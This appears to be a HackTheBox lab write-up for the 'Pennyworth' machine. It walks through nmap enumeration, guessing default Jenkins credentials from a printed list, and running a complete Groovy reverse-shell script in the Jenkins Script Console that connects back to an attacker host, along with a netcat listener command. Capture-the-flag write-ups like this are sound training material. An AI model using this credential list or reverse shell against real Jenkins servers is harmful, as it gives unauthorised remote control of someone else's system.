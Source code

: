 ```yaml
---
title: "HackTheBox - Pennyworth"
author: Nasrallah
description: ""
date: 2022-07-01 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, jenkins, groovy]
img_path: /assets/img/hackthebox/machines/pennyworth
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Pennyworth](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.193.169 (10.129.193.169)
Host is up (1.2s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
```

Found port 8080 open running jetty web server.

## Web

Let's navigate to port 8080.

![](1.png)

Found a login page for Jenkins.

## ffuf

Let's run a directory scan.

![](2.png)

Let's navigate to **/oops** page.

![](3.png)

This page reveals Jenkins version number. This version doesn't seem to be vulnerable to anything serious.

Let's try some default default credentials and attempt to login.

```
 - admin:admin
 - admin:password
 - admin:qwerty123
 - admin:root
 - root:root
 - root:admin
 - root:password
```

We managed to login using `root:password`.

# **Foothold**

Now that we managed to login as root, we can use script console to get a reverse shell.

At Jenkins Dashboard go to Manage Jenkins and then select Script Console.

![](4.png)

At the script console, we can run any Groovy program code we want. So we will run the following script that would give us a reverse shell.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](6.png)

Next we need to setup a netcat listener to receive the shell.`nc -lvnp 9001`.

Now press run and you should get a shell.

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).